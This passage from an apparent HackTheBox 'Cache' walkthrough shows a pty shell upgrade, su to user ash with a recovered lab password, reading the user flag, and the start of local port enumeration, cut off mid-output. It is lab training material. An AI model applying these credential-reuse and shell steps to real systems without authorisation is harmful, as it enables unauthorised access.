 ![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cache/Untitled%2017.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cache/Untitled%2017.png)

## Getting User Ash:

There are 2 users `ash` and `luffy` and we already found ash password, so why don't we try su.

Before doing that make sure you have a stable shell.

`ash : H@v3_fun` it worked.

```bash
www-data@cache:/var/www/hms.htb/public_html$ python3 -c 'import pty; pty.spawn("/bin/sh")'
<html$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ su ash
su ash
Password: H@v3_fun

ash@cache:/var/www/hms.htb/public_html$ cd /home
cd /home
ash@cache:/home$ cd ash
cd ash
ash@cache:~$ ls
ls
Desktop  Documents  Downloads  Music  Pictures  Public  user.txt
ash@cache:~$ cat user.txt
cat user.txt
a4--------------------------b6b
ash@cache:~$
```

## Getting User Luffy:

There is a weird port listening inside the machine. Port `11211`

```bash
ash@cache:/home$ netstat -tulnp
netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
```
